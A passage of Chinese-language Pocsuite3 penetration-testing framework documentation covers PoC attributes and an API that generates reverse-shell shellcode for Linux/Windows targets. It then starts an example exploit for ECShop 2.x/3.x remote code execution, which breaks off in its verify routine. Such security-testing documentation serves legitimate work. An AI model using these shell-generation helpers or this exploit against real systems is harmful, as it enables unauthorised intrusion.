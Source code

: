 * self.headers 用来获取 http 请求头, 可以通过 --cookie, --referer, --user-agent, --headers 来修改和增加需要的部分
* self.params 用来获取 --extra-params 赋值的变量, Pocsuite 会自动转化成字典格式, 未赋值时为空字典
* self.url 用来获取 -u / --url 赋值的 URL, 如果之前赋值是 baidu.com 这样没有协议的格式时, Pocsuite 会自动转换成 http:// baidu.com

#### ShellCode生成支持

在一些特殊的Linux和Windows环境下，想得到反弹shell条件比较困难。为此我们制作了用于在Windows/Linux x86 x64环境下的用于反弹的shellcode，并制作了接口支持，你在只需要拥有命令执行权限下便可以自动将shellcode写入到目标机器以及执行反弹shell命令。Demo Poc：https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/pocs/thinkphp_rce2.py

```python
from pocsuite3.api import generate_shellcode_list
_list = generate_shellcode_list(listener_ip=get_listener_ip(),listener_port=get_listener_port(),os_target=OS.LINUX,os_target_arch=OS_ARCH.X86)
```

将生成一长串执行指令，执行这些指令便可以反弹出一个shell。

#### HTTP服务内置

对于一些需要第三方HTTP服务才能验证的漏洞，Pocsuite3也提供对应的API，支持在本地开启一个HTTP服务方便进行验证。

可查看测试用例:https://github.com/knownsec/pocsuite3/blob/master/tests/test_httpserver.py

#### PoC 代码示例<div id="PoCexample"></div>

##### PoC Python 代码示例<div id="pyexample"></div>

[Ecshop 2.x/3.x Remote Code Execution](http://www.seebug.org/vuldb/ssvid-97343) PoC:

```
import base64
from urllib.parse import urljoin

from pocsuite3.api import Output, POCBase, register_poc, requests, logger
from pocsuite3.api import get_listener_ip, get_listener_port
from pocsuite3.api import REVERSE_PAYLOAD
from pocsuite3.lib.utils import random_str
from requests.exceptions import ReadTimeout


class DemoPOC(POCBase):
    vulID = '97343'  # ssvid
    version = '3.0'
    author = ['seebug']
    vulDate = '2018-06-14'
    createDate = '2018-06-14'
    updateDate = '2018-06-14'
    references = ['https://www.seebug.org/vuldb/ssvid-97343']
    name = 'Ecshop 2.x/3.x Remote Code Execution'
    appPowerLink = ''
    appName = 'ECSHOP'
    appVersion = '2.x,3.x'
    vulType = 'Romote Code Execution'
    desc = '''
    '''
    samples = []
    install_requires = ['']

    def _verify(self):
        result = {}
        path = "user.php?act=login"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
        ]

```